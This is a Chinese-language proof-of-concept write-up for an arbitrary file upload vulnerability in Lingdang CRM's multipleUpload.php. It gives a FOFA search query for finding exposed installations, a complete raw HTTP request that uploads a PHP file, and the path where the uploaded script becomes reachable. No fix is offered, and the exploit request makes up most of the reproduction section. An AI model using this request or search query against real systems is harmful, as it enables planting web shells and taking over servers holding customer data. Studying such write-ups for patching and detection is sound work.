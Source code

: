 # 灵当crm multipleUpload存在任意文件上传漏洞

# 一、漏洞简介
<font style="color:rgb(51, 51, 51);">灵当CRM（Customer Relationship Management，客户关系管理）是一款面向中小企业的客户关系管理软件，旨在帮助企业更好地管理客户信息、销售流程、市场营销和服务支持等方面的工作。灵当CRM提供了一系列工具和功能，帮助企业在销售、市场和服务部门之间实现高效协作，提高客户满意度和业务效率。灵当crm multipleUpload.php处存在任意文件上传漏洞。</font>

# 二、影响版本
+ 灵当crm

# 三、资产测绘
+ fofa`body="[http://localhost:8088/crm/index.php"](http://localhost:8088/crm/index.php") && body="ldcrm.base.js"`
+ 特征

![1722999861305-1e9e41ad-ed6a-4750-918d-61a0631ad06a.png](./img/n_rB39my7VHUQaTD/1722999861305-1e9e41ad-ed6a-4750-918d-61a0631ad06a-180620.png)

# 四、漏洞复现
```java
POST /crm/modules/Home/multipleUpload.php?uploadtype=uploadimg HTTP/1.1
Host: 
Content-Length: 779
Content-Type: multipart/form-data; boundary=----WebKitFormBoundary0Mh3BfgWszxRFokh
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/124.0.0.0 Safari/537.36

------WebKitFormBoundary0Mh3BfgWszxRFokh
Content-Disposition: form-data; name="file"; filename="budong.php"
Content-Type: text/plain

<?phpinfo();?>
------WebKitFormBoundary0Mh3BfgWszxRFokh
Content-Disposition: form-data; name="error"

UPLOAD_ERR_OK
------WebKitFormBoundary0Mh3BfgWszxRFokh--
```

![1726733803836-2941958f-c112-40e2-a412-85a7277323f6.png](./img/n_rB39my7VHUQaTD/1726733803836-2941958f-c112-40e2-a412-85a7277323f6-953406.png)

上传路径

```java
crm/storage/2024/September/week3/budong.php
```

![1726733845670-f34ac442-40c8-4647-af5c-c0cab59d4d83.png](./img/n_rB39my7VHUQaTD/1726733845670-f34ac442-40c8-4647-af5c-c0cab59d4d83-617707.png)



> 更新: 2024-10-21 11:49:37  
> 原文: <https://www.yuque.com/xiaokp7/ocvun2/nlhbtvcu71urmozp>